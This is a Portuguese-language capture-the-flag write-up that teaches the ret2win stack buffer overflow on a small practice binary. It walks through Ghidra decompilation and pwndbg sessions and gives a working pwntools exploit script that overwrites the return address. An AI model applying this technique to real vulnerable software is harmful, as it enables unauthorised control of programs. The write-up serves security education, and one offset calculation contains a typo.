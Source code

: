 # RET2WIN
## Autor: Henri

## O que é Ret2Win
Ret2win é um exploit que envolve a pilha (stack), de forma que nós reescrevemos os valores armazenados nela para alterarmos o endereço de retorno para uma função win (por isso o nome ret2win).
Mas como isso funciona? Bom, quando chamamos uma função o endereço da próxima instrução é salvo na pilha (`rsp` armazena esse endereço), e no início de toda função nós temos uma sequência de código em assembly que são conhecidos como prólogo da função. Eles são o `push rbp` que salva na pilha o conteúdo de `rbp`, e o `mov rbp, rsp` que faz o `rbp` ser igual ao `rsp`, essas duas instruções basicamente criam um novo segmento de pilha para aquela função. Agora que toda a pilha para a função está criada, ela começa a alocar espaço para as variáveis (se houver) subtraindo o valor de `rsp` pelo tamanho da variável (note que a pilha cresce de cima para baixo). Com tudo isso feito, se nós conseguirmos fazer uma veriável armazenar um valor maior que o seu tamanho, nós na verdade começaremos a sobrescrever todos os valores que já estavam na pilha, e o objetivo é fazer isso até chegarmos no local onde o endereço da instrução foi armazenado, e assim rescrevemos ele para ser o endereço para a função que queremos ir.

## Analisando o código
Normalmente você nunca recebe um arquivo de código para que você simplesmente olhe diretamente para ele e veja as vulnerabilidades, você geralmente vai receber um arquivo executável (na maioria dos casos .ELF). Para nós vermos o código é necessário usar alguma ferramenta que desmonte o executável em seu código assembly, e aqui nós usaremos duas ferramentas: o Ghidra que consegue mostrar o código assembly compilado para C ou C++, e também permite uma fácil visualização de todo o código, e o PwnDbg que também permite uma visualização do código assembly (se você já conhecer o nome das funções), mas usaremos ele principalmente por causa da sua capacidade de debugar.
Bom, abrindo o ELF disponibilizado no Ghidra podemos ter acesso a função `main`:
```c
undefined8 main(void)
{
  vulnFunction();
  return 0;
}
```
Podemos notar que a `main` chama outra função, vamos dar uma olhada nela.
```c
void vulnFunction(void)
{
  undefined local_18 [16];
  
  __isoc99_scanf(&DAT_00102021,local_18);
  printf("Buffer: %s",local_18);
  return;
}
```
Certo, temos uma função que usa o `scanf` para armezar o input do usuário em uma variável de tamanho 16 (vale notar que o scanf não tem limite de leitura, ou seja, podemos estourar o tamanho da variável sem problemas). Já identificamos a possível vulnerabilidade, mas e a função win? Bom temos que olhar no código para termos certeza que ela existe, para fazermos isso é só usar o Ghidra. Seja olhando pela parte principal ou pelo canto (onde mostra as funções), nós facilmente podemos identificar a existência da função `win`:
```c
void win(void)
{
  printf(&DAT_00102004);
  exit(0);
}
```

## Debugando com PwnDbg
Agora que sabemos todas as funções, vamos começar a debugar:
```
pwndbg> disassemble main

Dump of assembler code for function main:
   0x00000000004011a9 <+0>:     push   rbp
   0x00000000004011aa <+1>:     mov    rbp,rsp
   0x00000000004011ad <+4>:     mov    eax,0x0
   0x00000000004011b2 <+9>:     call   0x401168 <vulnFunction>
   0x00000000004011b7 <+14>:    mov    eax,0x0
   0x00000000004011bc <+19>:    pop    rbp
   0x00000000004011bd <+20>:    ret
End of assembler dump.


pwndbg> disassemble vulnFunction

Dump of assembler code for function vulnFunction:
   0x0000000000401168 <+0>:     push   rbp
   0x0000000000401169 <+1>:     mov    rbp,rsp -> Fim do prologo da função
   0x000000000040116c <+4>:     sub    rsp,0x10 -> Criando espaço para a variável
   0x0000000000401170 <+8>:     lea    rax,[rbp-0x10]
   0x0000000000401174 <+12>:    mov    rsi,rax
   0x0000000000401177 <+15>:    lea    rax,[rip+0xea3]        # 0x402021
   0x000000000040117e <+22>:    mov    rdi,rax
   0x0000000000401181 <+25>:    mov    eax,0x0
   0x0000000000401186 <+30>:    call   0x401040 <__isoc99_scanf@plt>
   0x000000000040118b <+35>:    lea    rax,[rbp-0x10]
   0x000000000040118f <+39>:    mov    rsi,rax
   0x0000000000401192 <+42>:    lea    rax,[rip+0xe8b]        # 0x402024
   0x0000000000401199 <+49>:    mov    rdi,rax
   0x000000000040119c <+52>:    mov    eax,0x0
   0x00000000004011a1 <+57>:    call   0x401030 <printf@plt>
   0x00000000004011a6 <+62>:    nop
   0x00000000004011a7 <+63>:    leave
   0x00000000004011a8 <+64>:    ret
End of assembler dump.


pwndbg> break *0x0000000000401168 -> Colocando um breakpoint bem no início da função

Breakpoint 2 at 0x401168

pwndbg> r

-> com esse comando nós rodamos o código e paramos no breakpoint, e podemos ver a pilha dessa forma
00:0000│ rsp 0x7fffffffddd8 —▸ 0x4011b7 (main+14) ◂— mov eax, 0
01:0008│ rbp 0x7fffffffdde0 ◂— 0x1

pwndbg> n -> esse comando avança para a próxima instrução
pwndbg> n

00:0000│ rbp rsp 0x7fffffffddd0 —▸ 0x7fffffffdde0 ◂— 0x1 -> antigo conteúdo de rbp, e rbp = rsp
01:0008│+008     0x7fffffffddd8 —▸ 0x4011b7 (main+14) ◂— mov eax, 0
02:0010│+010     0x7fffffffdde0 ◂— 0x1

pwndbg> c

Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA -> aqui eu simplesmente escrevi muitos caracteres para demonstrar como vai ficar a stack após isso

0x4011a8 <vulnFunction+64>    ret    <0x4141414141414141> -> aqui podemos ver que o endereço de retorno foi reescrito por A

pwndbg> x/100x $rsp -> mostrando a pilha, como podemos ver todos os valores que a gente conhecia foram reescritos.

pwndbg> x/100x $rsp
0x7fffffffddd8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdde8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffddf8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffde08: 0x41414141      0x41414141      0x41414141      0x00000041
```

## Solução
Esse é o estado da pilha após ela criar espaço para a nossa variável: 
```
00:0000│ rsp 0x7fffffffddc0 ◂— 0x0
01:0008│-008 0x7fffffffddc8 ◂— 0x0
02:0010│ rbp 0x7fffffffddd0 —▸ 0x7fffffffdde0 ◂— 0x1
03:0018│+008 0x7fffffffddd8 —▸ 0x4011b7 (main+14) ◂— mov eax, 0
```
Logo para chegarmos no endereço de retorno, teremos que escrever `24` caracteres (`0x18` -> `0x7fffffffddc0` - `0x7fffffffddc0`). Antes de fazermos um script para isso, nós temos que dar uma olhada na função `win` para acharmos seu endereço:
```
pwndbg> disassemble win

Dump of assembler code for function win:
   0x0000000000401146 <+0>:     push   rbp
   0x0000000000401147 <+1>:     mov    rbp,rsp
   0x000000000040114a <+4>:     lea    rax,[rip+0xeb3]        # 0x402004
   0x0000000000401151 <+11>:    mov    rdi,rax
   0x0000000000401154 <+14>:    mov    eax,0x0
   0x0000000000401159 <+19>:    call   0x401030 <printf@plt>
   0x000000000040115e <+24>:    mov    edi,0x0
   0x0000000000401163 <+29>:    call   0x401050 <exit@plt>
End of assembler dump.

```
Seu endereço é `0x0000000000401146`, vamos para o script:
```p
from pwn import *

p = process('./ret2win')

payload = b'A' * 24
payload += b'\x46\x11\x40\x00\x00\x00\x00\x00'

p.sendline(payload)

print(p.recvuntil(b"?").decode())
#log.info(p.clean())
```
Esse script é bem simples, nós usamos a biblioteca `pwn` que nos permite acessar "programas" por maio do script. Com ela nós abrimos o nosso processo (ret2win), criamos uma mensagem em bytes contendo os 24 caracteres mais o endereço da win (em little endian), e enviamos essa mensagem para o programa. Para pegarmos a mensagem do terminal nós usamos a `p.recvuntil(b"?").decode()`, essa função retorna tudo até o caractere `?`, em um formato de array de bytes, e por isso usamos o `decode()` para traduzir para nós.
O único problema desse script é que a função `recv` da biblioteca `pwn` da pau no programa se ela não encontrar o critério de parada, a outra opção para ela é usar o `log.info()`.

## Resultado
python3 solve.py

[+] Starting local process './ret2win': pid 172829

[*] Process './ret2win' stopped with exit code 0 (pid 172829)

Buffer: AAAAAAAAAAAAAAAAAAAAAAAAF\x11@Ué, como você chegou aqui?

